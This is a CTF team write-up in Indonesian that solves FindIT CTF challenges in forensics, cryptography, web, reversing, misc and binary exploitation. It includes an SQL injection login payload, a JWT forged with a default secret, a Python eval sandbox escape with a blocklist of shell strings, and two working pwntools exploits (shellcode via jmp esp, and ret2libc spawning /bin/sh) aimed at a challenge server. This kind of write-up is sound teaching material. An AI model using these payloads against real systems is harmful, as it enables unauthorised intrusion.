

# Contributors

| #   | Name                  | GitHub                                        |
| --- | --------------------- | --------------------------------------------- |
| 1   | Bagas Mukti Wibowo    | [@bl33dz](https://github.com/bl33dz)          |
| 2   | Nizam Abdullah        | [@abdullahnz](https://github.com/abdullahnz/) |
| 3   | Rafidhia Haikal Pasya | [@W-zrd](https://github.com/W-zrd/)           |

# List of Solved Problems

**Forensics**

- [**Bagas Dribble (327 pts)**](#bagas-dribble-327-pts)
- [**File Kosong (588 pts)**](#file-kosong-588-pts)
- [**Image Cropper (972 pts)**](#image-cropper-972-pts)

**Cryptography**

- [**How to Decrypt (378 pts)**](#how-to-decrypt-378-pts)
- [**Lazy Baby RSA (942 pts)**](#lazy-baby-rsa-942-pts)

**Web Exploitation**

- [**Kue (615 pts)**](#kue-615-pts)
- [**Login Dulu (887 pts)**](#login-dulu-887-pts)

**Reverse Engineering**

- [**Is This Python (712 pts)**](#is-this-python-712-pts)
- [**Woilah Cik (894 pts)**](#woilah-cik-894-pts)

**Miscellaneous (TODO)**

- [**Your Journey (901 pts)**](#your-journey-901-pts)
- [**Neobim Enjoyer (982 pts)**](#neobim-enjoyer-982-pts)

**Binary Exploitation (TODO)**

- [**Elevator (907 pts)**](#elevator-907-pts)
- [**Everything Machine 2.0 (931 pts)**](#everything-machine-20-931-pts)

# Forensics

## Bagas Dribble (327 pts)

Diberikan sebuah file berformat JPEG. Flag ditemukan hanya dengan menggunakan perintah <code><em>strings</em></code>.


**Flag: FindITCTF{j4ngG4r_4nD_b4g4s_L0v3_t0_dr1bbl3_4cgV9}**

## File Kosong (588 pts)

Diberikan file .txt kosong dengan informasi berikut.

```
flag.txt: Unicode text, UTF-8 text, with very long lines (360), with no line terminators
```

Berdasarkan informasi di atas, file yang diberikan tidak benar-benar kosong. Ada pesan tersembunyi dibalik file tersebut. Oleh karena itu kami mengecek struktur hex dari file tersebut.


Terlihat terdapat pola dalam bilangan hex seperti pada gambar di atas. Selain itu representasi dari hex yang berupa titik dan spasi (_seperti sandi morse, tapi bukan morse_) juga merupakan clue dari challenge ini.

Berikut adalah solver yang kami gunakan untuk mendapatkan flag.

```py
def bin2ascii(binary):
   flag = ""
   for b in binary.split():
   	ascii = chr(int(b, 2))
   	flag += ascii
   return flag

def decrypt():
   with open("flag.txt", "r") as f:
   	file = f.read()
   binary = ""
   for character in file:
   	digits = '1' if character == ' ' else '0'
   	binary += digits

   binary = ' '.join([binary[i:i+8] for i in range(0, len(binary), 8)])
   return bin2ascii(binary)

flag = decrypt()
print("Flag:", flag)
```

Intinya program tersebut akan mengconvert spasi menjadi 1, dan titik menjadi 0 sehingga akan membentuk binary value yang akan disimpan pada variabel binary. Sisanya tinggal mengconvert dari binary ke ASCII untuk mendapatkan flag.

**Flag: FindITCTF{K0K_F1l3ny4_K050ng_s1H?\_f73ghyg478}**

## Image Cropper (972 pts)

Proses penyisipan text dengan image dilakukan dengan beberapa proses:

1. Image akan di-convert menjadi RGB lalu akan di-crop menjadi 1:1.
2. Format hidden text adalah 16 bit text length + n bit text.
3. Lalu setiap bit hidden text akan disisipkan pada setiap pixel RGB image.
4. Setelah itu setiap pixel akan di-convert ke sinyal wave audio.

Setelah mengetahui alur proses _hiding text_ yang dilakukan, tinggal extract dan reverse saja proses diatas. Berikut solution yang kami buat.

```py
from PIL import Image
from Crypto.Util.number import long_to_bytes
import scipy.io.wavfile as wavfile
import numpy as np
import math

data = np.array(wavfile.read('encoded.wav')[1], dtype=np.float32)

red, green, blue = data[::3], data[1::3], data[2::3]

def scale_and_convert(channel):
    return np.round((channel + 1) / 2 * 255).astype(np.uint8)

red, green, blue = map(scale_and_convert, [red, green, blue])

def reshape_channel(channel):
    side_length = int(math.sqrt(channel.shape[0]))
    return np.reshape(channel, (side_length, side_length))

red, green, blue = map(reshape_channel, [red, green, blue])

pixels = np.dstack((red, green, blue))
image = Image.fromarray(pixels)
pixels = list(image.getdata())

data = ''
for red, green, blue in pixels:
    data += '0' if red % 2 == 0 else '1'
    data += '0' if green % 2 == 0 else '1'
    data += '0' if blue % 4 < 2 else '1'

binary_length = int(data[:16], 2)
binary_text = data[16:16 + binary_length]

print(long_to_bytes(int(binary_text, 2)).decode())
```

**Flag: FindITCTF{d0nt_t12ust_l1b!!\_ch3ck_th3_s0urce_c0d3_1ma0_44928}**

# Cryptography

## How to Decrypt? (378 pts)

Diberikan 2 buah file: flag.txt yang berisi flag yang masih di-encrypt, dan encrypt.py yang berisi algoritma caesar cipher. Jika karakter adalah huruf, program menghitung indeks decrypted character dengan mengurangi nilai ASCII dengan offset ASCII berdasarkan huruf besar atau kecil, kemudian menguranginya dengan 4 (jumlah pergeseran Caesar Cipher) dan mengambil hasilnya dengan mod 26

Berikut adalah solver yang kami gunakan.

```py
def caesar_decrypt(ciphertext):
   plaintext = ""
   for char in ciphertext:
       if char.isalpha():
           ascii_offset = ord('A') if char.isupper() else ord('a')
           decrypted_char = chr((ord(char) - ascii_offset - 4) % 26 + ascii_offset)
           plaintext += decrypted_char
       else:
           plaintext += char
   return plaintext

encrypted_flag = "JmrhMXGXJ{al4x_h03w_G43w4v_Hs_57lnkrzh8x5}"
decrypted_flag = caesar_decrypt(encrypted_flag)
print(decrypted_flag)

# FindITCTF{wh4t_d03s_C43s4r_Do_57hjgnvd8t5}
```

**Flag: FindITCTF{wh4t_d03s_C43s4r_Do_57hjgnvd8t5}**

## Lazy Baby RSA (942 pts)

Fungsi **convert** ini hanya melakukan encode base64 sebanyak **n** kali. Maka untuk mendapatkan nilai **p, g, x, y** hanya dilakukan decode base64 dengan mencatat counternya.

```py
p = getPrime(64)
p1 = convert(f"0x{p:x}", x)
write(f"p = {p1}")

g = random.randint(1, p - 1)
g1 = convert(f"0x{g:x}", y)
write(f"g = {g1}")
```

Lalu gunakan discrete log untuk mendapatkan nilai **a** dan **b** secara $A=g^a mod (p)$ dan $B=g^b mod (p)$ . Setelah itu tinggal craft ulang secretkey dan iv yang digunakan untuk enkripsi. Full solution:

```py
#!/usr/bin/python3

from sympy.ntheory import discrete_log
from Crypto.Cipher import AES
from Crypto.Util.number import getPrime, long_to_bytes
from Crypto.Util.Padding import pad, unpad
from function import *
from base64 import b64decode
import hashlib

exec(open("output.txt").read())

def decode(p):
    n = 0
    while True:
        try:
            p = b64decode(p)
            n += 1
        except:
            break

    return p, n

p, x = decode(p)
g, y = decode(g)

p = int(p, 16)
g = int(g, 16)

a = discrete_log(p, A, g)
b = discrete_log(p, B, g)

C = pow(A, b, p)
assert C == pow(B, a, p)

key = hashlib.sha256(long_to_bytes(C)).digest()[:16]

iiv = pow(x, y)
iiv = modify_digit(iiv, rules)
iv = iiv.to_bytes(16, byteorder="little")

cipher = AES.new(key, AES.MODE_CBC, iv)
flag = cipher.decrypt(c)

print(unpad(flag, 16 ** 2))
# b'FindITCTF{1_4m_4_l4zy_b4by_4nd_1_4m_proud_of_1t}'
```

**Flag: FindITCTF{1_4m_4_l4zy_b4by_4nd_1_4m_proud_of_1t}**

# Web Exploitation

## Kue (615 pts)

Diberikan sebuah website dan source code dari website tersebut, karena dari deskripsi soal terdapat keterangan bahwa website tersebut dibuat menggunakan ChatGPT maka secret key yang diberikan tidak diganti yang valuenya adalah <code>your_secret_key</code></strong>. Lalu terdapat endpoint flag yang akan memunculkan flag jika value role dari cookie merupakan admin.


Kami mengambil cookie dari website tersebut terlebih dahulu lalu mengubah value dari role pada cookie tersebut menggunakan [jwt.io](https://jwt.io) dan menggunakan secret key <code>your_secret_key</code></strong>.


Setelah itu lakukan GET pada endpoint /flag menggunakan cookie yang sudah dimodifikasi tersebut.


**Flag: FindITCTF{k0p1_k4p4l_134bi}**

## Login Dulu (887 pts)

Diberikan sebuah website beserta source codenya, dari source code yang diberikan terdapat sebuah vulnerability SQL Injection karena tidak terdapat sanitasi input saat login.


Terlihat pada source code hanya melakukan validasi apakah terdapat row atau tidak, karena itu kami hanya perlu menggunakan UNION SELECT untuk membuat sebuah row baru agar validasi tersebut bernilai true.

Pada endpoint /flag terdapat validasi apakah username dari session yang ada memiliki username admin. Oleh karena itu kami akan menggunakan username <code>admin</code></strong> dan password <strong><code>" union select 1,2,3-- -</code></strong>.


**Flag: FindITCTF{manc1n9_m4n14K}**

# Reverse Engineering

## Is This Python (712 pts)

Replicate hasil disassembly python, hasilnya program akan melakukan XOR menggunakan key **“findit2024”**. Berikut kode yang telah diperpendek:

```py
key = '2024'
key = 'findit' + key
flag_enc = [32,0,0,0,32,32,113,100,116,79,4,89,2,80,54,66,83,92,3,107,8,80,9,11,54,16,93,1,83,90,82,7,49,80,80,71,10,1,1,73]

flag = []
for i in range(len(flag_enc)):
    flag.append(flag_enc[i] ^ ord(key[i % len(key)]))

print(bytes(flag))
```

**Flag: FindITCTF{b0l4_6al1_n9go_do1an4n_493813}**

## Woilah Cik (894 pts)

Dynamic analysis pada **password-generator** binary, break pada saat setelah pemanggilan fungsi concate.


Hasilnya didapatkan string:


Password check:


**Flag: FindITCTF{ez_bgt_OIUMa}**

# Miscellaneous

## Your Journey (901 pts)

Diberikan sebuah service yang intinya akan melakukan eval pada input yang kita berikan. Terdapat beberapa string yang tidak diizinkan pada input kita.


```py
block = [";", '"',"os", "_", "\\", "`", " ", "-", "!", "[", "]", "*", "import", "eval", "banner", "echo", "cat", "%", "&", ">", "<", "+", "1", "2", "3", "4", "5", "6", "7", "8", "9", "0", "b", "s", "lower", "upper", "system", "}", "{", ".py", ]
```

Karena pada blacklist string tidak terdapat exec dan input kami dapat langsung mengeksekusi dua fungsi tersebut. Input: `exec(input())` lalu menggunakan module os untuk mengeksekusi command.


### Flag: FindITCTF{4m0GU5_y0u_Sh0u1d_ch3ck_4ll_th3_f1l3s}

## Neobim Enjoyer (982 pts)

Diberikan sebuah ekstensi dari neovim. Pada awalnya saya melihat terdapat sebuah string flag pada bagian `file_assets.lua` dan mengira akan ada assets tersebut pada Application ID yang terdapat pada source code.


Namun setelah kami periksa tidak terdapat assets yang bernama `flag_*` pada application tersebut.


Lalu setelah stuck cukup lama, kami tertarik untuk mencoba melihat assets dari Application ID yang terdapat pada `README.md`(yang awalnya kami kira hanya placeholder) dan ternyata terdapat assets `flag_*` yang dimaksud.


Kami membuat script python untuk mendapatkan setiap file flag tersebut.

```py
import requests

ASSETS = "https://discordapp.com/api/oauth2/applications/1233467180696207390/assets"
CDN_URL = "https://cdn.discordapp.com/app-assets/1233467180696207390/"

def getAssets(url=ASSETS):
    r = requests.get(url)
    return r.json()

def getFileIDByName(name, data):
    for asset in data:
        if asset['name'] == name:
            return asset['id']

def downloadFileByID(filename, savefile, cdn=CDN_URL):
    url = cdn + filename
    r = requests.get(url)
    with open(savefile, 'wb') as f:
        f.write(r.content)

data = getAssets()
for i in range(0, 20):
    filename = getFileIDByName("flag_" + str(i), data) + ".png"
    downloadFileByID(filename, savefile="result/flag_" + str(i) + ".png")
```


**Flag: FindITCTF{n30Vim_i5_Aw3SoM3!!!}**

# Binary Exploitation (PWN)

## Elevator (907 pts)

Binary dengan vulnerability buffer overflow karena input menggunakan **gets** dengan tidak ada mitigasi apapun. Lalu terdapat gadget **jmp esp** yang bisa digunakan untuk _jump_ ke shellcode yang kita buat.

```py
#!/usr/bin/env python3

from pwn import *

PATH = './admin'

HOST = '103.191.63.187'
PORT = 5000

def exploit(r):
    payload  = b'A' * 0x40C
    payload += p32(0x08049199) # jump esp
    payload += asm(shellcraft.sh())

    r.recvlines(2)
    r.sendline(payload)

    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)

    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})

    exploit(r)
```



**Flag: FindITCTF{m4m4h_4ku_h3k3r_l33t}**

## Everything Machine 2.0 (931 pts)

Sama seperti vulnerability sebelumnya. Namun, disini tidak ada gadget yang dapat kita gunakan seperti sebelumnya dan sekarang stack tidak memiliki permission executable. Kita tidak dapat eksekusi shellcode, namun bisa melakukan ROP untuk mendapatkan alamat libc dan ROP untuk memanggil `system(“/bin/sh”)`.

```py
#!/usr/bin/env python3

from pwn import *

PATH = './everything4'

HOST = '103.191.63.187'
PORT = 5001

def exploit(r):
    payload  = b'A' * 0x7f4
    payload += p32(elf.sym.puts)
    payload += p32(elf.sym.main)
    payload += p32(elf.got.puts)

    r.recvlines(2)
    r.sendline(payload)

    puts = u32(r.recvline(0))

    libc.address = puts - libc.sym.puts

    info(f'puts: {hex(puts)}')
    info(f'libc: {hex(libc.address)}')

    payload  = b'A' * 0x7f4
    payload += p32(libc.sym.system)
    payload += p32(elf.sym.main)
    payload += p32(next(libc.search(b'/bin/sh')))

    r.recvlines(2)
    r.sendline(payload)

    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)
    libc = ELF("./libc.so.6", checksec=True)

    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})
    exploit(r)
```


**Flag: FindITCTF{Pl3as3_3x!t_th3_pl4tf0rm}**
